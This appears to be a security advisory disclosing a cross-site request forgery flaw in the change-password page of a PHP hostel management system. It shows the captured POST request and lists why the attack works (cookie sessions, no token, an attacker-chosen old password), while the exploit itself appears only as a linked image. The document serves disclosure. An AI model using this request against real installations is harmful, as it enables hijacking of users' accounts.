 ## Vulnerability Details

**Credits**:
  > Paul Rivera: (https://github.com/blackslim3)<br/>

**Tested On**:
  > Hostel Management System using PHP and MySQL 1.0 : https://github.com/Surya2Developer/Hostel_Management_System/

**Affected Version**:
  > Hostel Management System using PHP and MySQL 1.0

**Affected Site Page**:
  > /change-password.php

**Affected Code**:
  > change-password.php

**Related CWE**:
  > CWE-352: Cross-Site Request Forgery (CSRF): https://cwe.mitre.org/data/definitions/352.html

## **Details**:
  > On the change-password functionality, an attacker can induce a user to do unintended password change by visiting an attacker controlled website. 

```http
POST /hostel/change-password.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 94
Origin: http://localhost
Connection: close
Referer: http://localhost/hostel/change-password.php
Cookie: PHPSESSID=pl4c7vknv65g74iqov35nu8e01
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


oldpassword=6786786786&newpassword=password123&cpassword=password123&changepwd=Change+Password

```

> On the POST request above, it has the following conditions that allows a CSRF to work:
- Relevant Action: change password
- Cookie-based session handling
- No unpredictable token needed
- The `oldpassword` value can be the attacker's password. 

> CSRF Exploit:

![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_exploit.png)

> CSRF Exploit Successful

![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/CSRF_changePassword_success.png)

## **Vulnerability Impact**:
    > In a successful CSRF attack, an attacker can causes a user to perform change password unintentionally.
    
